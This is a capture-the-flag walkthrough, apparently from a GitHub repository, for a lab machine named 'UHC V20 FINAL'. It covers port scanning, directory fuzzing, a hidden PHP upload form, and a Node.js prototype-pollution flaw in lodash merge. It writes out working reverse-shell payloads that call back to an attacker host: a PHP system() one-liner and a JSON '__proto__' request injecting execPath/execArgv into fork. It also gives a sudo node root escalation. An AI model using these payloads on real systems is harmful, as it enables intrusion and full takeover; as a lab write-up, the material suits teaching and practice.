









# UHC V20 FINAL


## Recon
In the beginning, I used `nmap` with the following parameters. I found only ports 22, 80 (web server apache using PHP), 111 and 3000 (web server using Express from nodejs).
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/uhc-v20-final]
└──╼ $sudo nmap -sSVC -Pn -T5 172.16.7.155
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 18:05 -03
Nmap scan report for 172.16.7.155
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:4a:a2:4a:60:73:54:0a:a3:1e:50:0f:58:52:0b:b2 (RSA)
|   256 5d:28:8a:53:4b:69:70:37:14:ab:cf:9d:58:f0:39:9c (ECDSA)
|_  256 b8:4f:6d:2f:71:87:14:f9:51:52:bf:5a:6b:21:3e:f2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.46 (() PHP/7.4.11)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 () PHP/7.4.11
|_http-title: Ultimate Hacking CTF Labs | CTF e e-Sports.
|_http-generator: Wordpress 8.2
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3000/tcp open  http    Node.js Express framework
|_http-title: Error
```
The first thing that I made it's discovery new directories from web server in port 80. Here I tried others wordlists to api, directories and files, but doesn't work.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/uhc-v20-final]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://172.16.7.155/FUZZ -t 100 -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.155/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

uploads                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 156ms]
assets                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 157ms]
.                       [Status: 200, Size: 11279, Words: 3080, Lines: 239, Duration: 153ms]
:: Progress: [107982/107982] :: Job [1/1] :: 660 req/sec :: Duration: [0:02:52] :: Errors: 0 ::
```

Ok, we have a `/uploads` that contains a index of files. Maybe we can upload php.

In `index.php` we have the following code in source code.
```html
<form action="/email.php" method="POST" class="form-with-styler" data-form-title="Form Name" enctype="multipart/form-data">
                    <!--
                                <input type="file" name="the_file" id="fileToUpload">
                    -->
                    <div class="">
                        <div id="alert" hidden="hidden" data-form-alert="" class="alert alert-success col-12">Obrigado por se inscrever!</div>
                        <div hidden="hidden" data-form-alert-danger="" class="alert alert-danger col-12">Oops...! tivemos um problema!</div>
                    </div>
                    <div class="dragArea row">
                        <div class="col form-group" data-for="email">
                            <input type="text" name="email" placeholder="Your best e-mail" data-form-field="email" class="form-control" required="required" value="" id="email-countdown1-2">
                        </div>
                        <div class="mbr-section-btn"><button type="submit" class="btn btn-primary display-4">Sign-up</button></div>
                    </div>
                </form>
```

This is a form with commented input. Maybe this is the path to gain RCE via Local File Inclusion using PHP shell.

Inside `/uploads`, we can found a file named `shell.php5`.

## Exploitation
I'll test this attack vetor from input. So lets go make a request with a input `email` and `the_file` to `/email.php` using burp. We can test upload a file with extension php5.
```
POST /email.php HTTP/1.1
Host: 172.16.7.155
Content-Type: multipart/form-data; boundary=---------------------------1166246811985806323925494029
Content-Length: 384

-----------------------------1166246811985806323925494029
Content-Disposition: form-data; name="email"

teste@gmail.com
-----------------------------1166246811985806323925494029
Content-Disposition: form-data; name="the_file"; filename="teste.php5"
Content-Type: application/x-php

<?php echo "uploads works =D";?>

-----------------------------1166246811985806323925494029--
```




Now we can get a reverse shell and logging into apache =D. We will use `<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'");?>`.

## Post exploitation
In `ps aux` we have a process with node server running in user `uhc` in port 3000 (nmap). So we need verify the code inside /opt/uhclabs.
```bash
uhc       2759  0.0  2.0 585024 39672 ?        Ssl  21:05   0:00 /usr/bin/node /opt/uhclabs/index.js
```

Inside `/opt/uhclabs` we have:
```bash
-rw-r--r--  1 uhc uhc  1781 Nov 29  2020 index.js
-rw-r--r--  1 uhc uhc   163 Nov 29  2020 messages.json
drwxr-xr-x 65 uhc uhc  4096 Nov 29  2020 node_modules
-rw-r--r--  1 uhc uhc 18748 Nov 29  2020 package-lock.json
-rw-r--r--  1 uhc uhc   340 Nov 29  2020 package.json
-rw-r--r--  1 uhc uhc   219 Nov 29  2020 store.js
```

The file `messages.json` it's like a database to storage messages


The file `store.js` it's a function just to write a serialized message in a file .json


And below we have the code of index.js:
```javascript
const express = require('express');
const bodyParser = require('body-parser');
const _ = require('lodash');
const app = express();
const fork = require('child_process').fork;


const users = [
  {name: 'guest', password: 'guest'},
  {name: 'admin', password: Math.random().toString(32), canExec: true}, // do not brute
];

let messages = [];
let lastId = 1;

function findUser(auth) {
  return users.find((u) =>
    u.name === auth.name &&
    u.password === auth.password);
}

app.use(bodyParser.json());


app.get('/api/', (req, res) => {
  res.send(messages);
});


app.put('/api/', (req, res) => {
  const user = findUser(req.body.auth || {});

  if (!user) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  const message = {
    icon: '😈',
  };

  _.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name,
  });

  messages.push(message);
  res.send({ok: true});
});

app.post('/api/store', (req, res) => {
    const user = findUser(req.body.auth || {});

    if (!user) {
      res.status(403).send({ok: false, error: 'Access denied'});
      return;
    }

    var child = fork('store');
  
    
    child.send(messages);
    child.on('message', function(m) {
        
        console.log('received: ' + m);
        res.send(JSON.stringify(m));
      });
     
  });

app.delete('/api/', (req, res) => {
  const user = findUser(req.body.auth || {});

  if (!user) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  messages = messages.filter((m) => m.id !== req.body.messageId);
  res.send({ok: true});
});


app.listen(3000);
console.log('Listening on port 3000...');
```

We have four uses to this app using Express:
- Method GET in `/api` - just return a message
- Method PUT in `/api` - make the merge of our message with old message (here use `._merge` function)
- Method POST in `/api/store` - here we have a `fork()` function used in `child_process()` lib. Also we have a `send()` function used in the same lib, this method send a Object to a another proc using IPC communication (ref: https://nodejs.org/api/child_process.html#subprocesssendmessage-sendhandle-options-callback). Basically we have a call to fork()
- Method DELETE in `/api/` - just delete a message

The first thing we gonna test is `/api` using burp:
```
PUT /api/ HTTP/1.1
Host: 172.16.7.155:3000
Content-Type: application/json
Content-Length: 64

{"auth":{"name":"guest","password":"guest"},
"message":"test"}
```




It's working, but the method PUT had created new message. When we try to POST in /api/store, the app doesn't respond.

In the POST route we have a call fork() function. So we can exploit prototype pollution because of this function. Inside request to /api/store, we can call `__proto__` to overwrite all Objects created just to add a attributes. But we will create a attributes from fork function just to gain another RCE. So use nc to listen.
```
POST /api/store HTTP/1.1
Host: 172.16.1.180:3000
Content-Type: application/json
Content-Length: 142

{"auth":{"name":"guest","password":"guest"},"__proto__":{"execPath":"/bin/bash","execArgv":["-c", "sh -i >& /dev/tcp/10.0.10.235/3001 0>&1"]}}
```



Now we have uhc user, but we need gain access to root. So we have a permission to use /bin/node with sudo with the following payload found in GTFObins.
```bash
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```


Here we are with the root =D